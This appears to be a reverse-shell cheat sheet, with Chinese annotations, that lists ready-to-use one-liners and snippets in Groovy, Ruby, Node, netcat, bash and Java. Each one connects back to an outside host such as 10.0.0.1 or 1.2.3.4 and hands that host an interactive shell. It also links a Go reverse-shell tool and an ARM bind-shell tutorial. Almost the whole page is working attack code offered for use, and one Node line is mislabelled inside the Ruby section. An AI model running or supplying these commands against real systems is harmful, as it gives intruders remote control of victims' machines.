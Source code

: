 ## revsh.groovy

```java
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

```bash
require('child_process').exec('bash -i >& /dev/tcp/1.2.3.4/80 0>&1');
```

## netcat 

```bash
nc -e /bin/sh 10.0.0.1 1234
```

不支持`-e`选项，也可以：

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
nc x.x.x.x 8888|/bin/sh|nc x.x.x.x 9999
```

## Go

[Hershell](https://github.com/sysdream/hershell):Go语言编写的多平台化的反向shell

## Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## [assembly](https://azeria-labs.com/tcp-bind-shell-in-assembly-arm-32-bit/)
